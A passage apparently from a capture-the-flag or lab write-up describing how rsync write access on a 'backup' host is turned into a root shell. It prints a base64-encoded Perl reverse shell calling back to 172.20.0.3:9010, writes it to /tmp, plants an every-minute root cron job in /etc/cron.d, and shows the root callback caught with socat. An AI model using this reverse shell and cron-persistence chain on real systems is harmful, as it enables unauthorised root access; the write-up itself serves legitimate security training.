### Shell via Cron

I’ll use the read / write access to verify that cron is enabled, and then write one to get shell.

There’s already a cron named `clean` in the folder, which is a good sign that cron is enabled:

```

# rsync rsync://backup:873/src/etc/cron.d/
drwxr-xr-x          4,096 2018/07/25 21:41:13 .
-rw-r--r--            102 2015/06/11 10:23:47 .placeholder
-rw-r--r--             29 2018/05/04 20:57:55 clean

```

I’ll write a cron file. First, a shell script that calls back to www on port 9010:

```

# echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTcyLjIwLjAuMyI7JHA9OTAxMDtzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMiKTtleGVjKCIvYmluL3NoIC1pIik7fTsnCg== | base64 -d > shell.sh 
# cat shell.sh
perl -e 'use Socket;$i="172.20.0.3";$p=9010;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
# rsync -a shell.sh rsync://backup:873/src/tmp/
# rsync rsync://backup:873/src/tmp/
drwxrwxrwt          4,096 2018/07/25 21:38:36 .
-rw-r--r--            220 2018/07/25 21:37:39 shell.sh

```

Now write the cron:

```

# echo '* * * * * root sh /tmp/shell.sh' > shell
# rsync -a shell rsync://backup:873/src/etc/cron.d/

```

Rather than tunnel everything thing back to kali, I’ll just use `socat` to listen on www in this case. That gets me a callback as root on backup:

```

# /tmp/socat TCP-LISTEN:9010 STDOUT
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# hostname
backup

```
